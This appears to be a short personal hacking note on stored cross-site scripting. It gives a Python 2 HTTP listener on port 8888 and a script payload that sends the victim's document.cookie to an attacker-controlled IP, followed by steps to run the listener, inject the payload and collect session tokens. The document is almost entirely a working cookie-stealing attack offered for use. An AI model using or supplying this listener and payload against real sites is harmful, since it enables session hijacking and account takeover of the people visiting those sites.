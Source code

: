 ```yaml
---
title: XSS attacks 💀
---
```

- When performing an stored XSS, we have the following useful script (python2):

```python
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)

        return

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    try:
        server = HTTPServer(('0.0.0.0', 8888), MyHandler)
        print('Started http server')
        server.serve_forever()
    except KeyboardInterrupt:
        print('^C received, shutting down server')
        server.socket.close()
```

- Execute it
- Then we insert on the webpage the following XSS:

```shell
<script>
   image = new Image();
   image.src='http://IP_ATTCK:8888/?'+document.cookie;
</script>
```

- Then we should get some session tokens like this (when someone clicks on it):

![](Pasted%20image%2020240210145953.png)
